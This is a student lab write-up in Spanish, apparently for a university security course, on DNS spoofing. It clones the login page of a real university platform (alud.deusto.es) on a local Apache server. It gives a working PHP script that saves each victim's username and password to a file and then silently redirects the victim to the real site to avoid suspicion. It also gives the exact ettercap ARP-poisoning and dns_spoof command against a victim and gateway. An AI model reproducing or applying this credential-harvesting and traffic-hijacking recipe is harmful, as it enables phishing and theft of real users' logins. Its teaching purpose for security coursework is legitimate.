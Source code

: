 # DNS Spoofing (Práctica 5)

> Ibai Guillén Pacho
> 

> Ing. Informática + TDE
> 

# Objetivo de la práctica

Replicar la página de Alud y redirigir todo el tráfico que vaya a ella desde el ordenador de la víctima. Como opcional se podrían interceptar las credenciales del usuario.

# Herramientas

### Ettercap

Ettercap es un interceptor/sniffer/registrador para LANs con switch. Sirve en redes LAN conmutadas, aunque es utilizado para auditorías en distintos tipos de redes. Soporta direcciones activas y pasivas de varios protocolos.

[Ettercap Home Page](https://www.ettercap-project.org/)

# Ataque

<aside>
📌 Antes de realizar cualquier ataque de dns spoofing lo recomendable es tener todo preparado antes de empezar a suplantar al servicio, por lo cual primero pondremos a punto el servidor de phising y después empezaremos a suplantar el tráfico.

</aside>

## Creación de serdor web con Apache2

Para crear un servidor de apache en el ordenador bastará con instalarlo mediante:

```bash
sudo apt-get install apache2
```

Y para iniciarlo basta con:

```bash
service apache2 start
```

Acto seguido si accedemos a la página [localhost](http://localhost) podremos ver como aparece la página de que está todo correcto.

![recursos/Untitled.png](recursos/Untitled.png)

## Puesta en marcha de la página de phising

Una vez tengamos nuestro servidor de apache corriendo sin problemas nos pondremos a cambiar la página de inicio. Como nuestro objetivo es interceptar la página de alud.deusto.es copiaremos su diseño tal cual de la siguiente forma.

1. Nos dirigiremos a la página, y una vez ahí daremos botón derecho y pulsaremos en guardar página como.
    
    ![recursos/Untitled%201.png](recursos/Untitled%201.png)
    
2. Pondremos de nombre `index.html` para que apache lo lea sin problemas, acto seguido lo guardaremos.
    
    ![recursos/Untitled%202.png](recursos/Untitled%202.png)
    
3. Moveremos los documentos a la carpeta donde se encuentra alojado el servidor de apache y sobrescribiremos el contenido.
    
    ![recursos/Untitled%203.png](recursos/Untitled%203.png)
    
4. Accederemos a la página de [localhost](http://localhost) de nuevo para ver que todo esté bien.
    
    ![recursos/Untitled%204.png](recursos/Untitled%204.png)
    

## Proceso de intervención de credenciales [EXTRA]

Para poder intervenir las credenciales que se van a lanzar en esta página habría que estudiar el caso detenidamente y buscar la opción de que al dar al botón acceder los datos se copien en el servidor.

Indagando en el archivo index.html buscaremos el campo `<form>` para poder analizar que opciones tenemos.

![recursos/Untitled%205.png](recursos/Untitled%205.png)

En este caso como podemos observar, el form toma una acción de llamar a un fichero php del dominio, por lo cual por aquí podremos atacar.

Primero que nada cambiaremos esa ruta a un fichero php nuestro, para poder interceptar así las contraseñas y guardarlas en un fichero:

![recursos/Untitled%206.png](recursos/Untitled%206.png)

En este fichero escribiremos lo siguiente:

```php
<?php
if(isset($_POST['username']) && isset($_POST['password'])) {
    $data = $_POST['username'] . '-' . $_POST['password'] . "\n";
    $filename = date('YmdHis').".txt";
    if (!file_exists($filename)) {
        $fh = fopen($filename, 'w') or die("Can't create file");
    }
    $ret = file_put_contents($filename, $data, FILE_APPEND | LOCK_EX);
    if($ret === false) {
        //There was an error writing this file
    }
header("Location: https://alud.deusto.es/login/index.php");
exit();
}
?>
```

Este fichero por lo tanto interceptaría que el formulario se ha mandado, crearía un fichero con el timestamp del momento y metería en el el usuario y la contraseña separados por un guion. Acto seguido redirigiría a la página de alud convencional, como si nada hubiera pasado, para que la persona no sospeche.

<aside>
⚠️ Atención, para que apache pueda crear los ficheros para alojar los datos de los usuarios es indispensable darle permisos de escritura al usuario www-data sobre el directorio.

</aside>

```bash
sudo chown www-data /var/www/html/
```

## Puesta en marcha de Ettercap

Primero que nada, para realizar un dns spoofing hay que saber cual es la dirección IP de la víctima, la IP del default gateway y la página que queremos suplantar.

Una vez tengamos todos los datos anteriores nos iremos a editar el fichero `etter.dns` en el directorio `/etc/ettercap/etter.dns`, una vez dentro del fichero añadiremos la página que queremos interceptar y la url a la que queremos redirigir el tráfico:

![recursos/Untitled%207.png](recursos/Untitled%207.png)

<aside>
ℹ️ En este caso se redirigirá el tráfico al mismo ordenador del atacante, aunque se suele redirigir a servidores configurados previamente para ataques de phising.

</aside>

Una vez esté la página en la lista deberemos poner en marcha ettercap para proceder a realizar el arp sniff para poder realizar el dns spoof. Para ello bastará con utilizar el siguiente comando, que a través de la interfaz ethernet 0 del dispositivo y con el plugin dns_spoof activado procederá a sniffear todo el tráfico entre la víctima y el default gateway.

```bash
ettercap -T -q -i eth0 -M arp:remote -P dns_spoof /192.168.145.130// /192.168.145.2//
```

<aside>
ℹ️ De esta forma si la víctima demanda una de las páginas de la lista de dns spoof el atacante responderá con la página que tenga alojada en su ordenador.

</aside>

## Víctima

De esta forma la víctima al logarse en alud le ocurriría lo siguiente:

1. Accederá a la página
    
    ![recursos/Untitled%208.png](recursos/Untitled%208.png)
    
2. Insertará sus datos de acceso y le dará al botón acceder.
    
    ![recursos/Untitled%209.png](recursos/Untitled%209.png)
    
3. Será redirigido a la página real
    
    ![recursos/Untitled%2010.png](recursos/Untitled%2010.png)
    
    <aside>
    🛠 Debido a problemas de version de internet explorer los elementos php de alud no están disponibles en la víctima. Desde cualquier otra máquina más actual, como la del atacante, se puede ver perfectamente el contenido. Véase el apartado de puesta en marcha de la página de phising.
    
    </aside>
    

## Resultados

Una vez ha habido alguien que haya entrado con sus credenciales saldrá un fichero en la carpeta de apache.

![recursos/Untitled%2011.png](recursos/Untitled%2011.png)

Este fichero contiene las credenciales que la víctima ha introducido antes de ser redirigida a la página original de alud.

![recursos/Untitled%2012.png](recursos/Untitled%2012.png)

# Documentación

Documentación trabajada en Notion, link al formato original:

[DNS Spoofing (Práctica 5)](https://www.notion.so/DNS-Spoofing-Pr-ctica-5-56b94aece46a49069c950b4748e22608)
